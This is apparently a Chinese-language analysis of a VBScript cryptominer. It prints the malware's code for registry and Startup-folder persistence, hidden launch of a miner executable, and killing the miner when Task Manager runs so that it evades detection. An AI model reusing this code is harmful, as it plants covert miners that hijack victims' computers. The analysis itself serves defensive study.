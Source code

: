 #### 持久化

首先获取注册表`HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\StartupFolder\helper.lnk`，如果它不为空就向其写入二进制数据02，但是这里似乎获取是空的

```vb
nkey = "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\StartupFolder\helper.lnk"

key = Empty
key = ws.regread (nkey)
If (not IsEmpty(key)) then
    ws.RegWrite nkey, 2, "REG_BINARY"	
End if
```

随后在Startup目录下创建一个快捷方式，连接到helper.vbs

```vb
strPath = WScript.ScriptFullName
set objws = CreateObject("Scripting.FileSystemObject")
Set objFile = objws.GetFile(strPath)
strFolder = objws.GetParentFolderName(objFile)
strPath = strFolder & "\"
startupPath = ws.SpecialFolders("startup")

If (not objws.fileexists(startupPath & "\helper.lnk")) then
    Set link = ws.CreateShortcut(startupPath & "\helper.lnk")
    link.Description = "helper"
    link.TargetPath =chr(34) & strPath & "helper.vbs" & chr(34)
    link.WorkingDirectory = strPath
    link.Save
End If
```

效果如下：

![image-20240225114842195](image-20240225114842195.png)

#### 运行恶意可执行文件

随后启动installer.vbs（如果它未在运行），判断WindowsServices.exe（病毒同目录下的可执行文件）是否在运行，同时也判断任务管理器是否在运行，如果都没有运行就启动WindowsServices.exe

如果运行WindowsServices.exe的同时也运行了任务管理器，就用taskkill结束WindowsServices.exe，防止被任务管理器发现异常进程

```vb
miner = Chr(34) & strPath & "WindowsServices.exe" & Chr(34)

Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name = 'wscript.exe'")

call procheck(colProcess, "installer.vbs")

Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name Like '%WindowsServices.exe%'")
Set tskProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name Like '%Taskmgr.exe%'")

if colProcess.count = 0 And tskProcess.count = 0  then

    ws.Run miner, 0

ElseIf colProcess.count > 0 And tskProcess.count > 0 then

    For Each objProcess In colProcess
        ws.run "taskkill /PID " & objProcess.ProcessId , 0 
    Next

```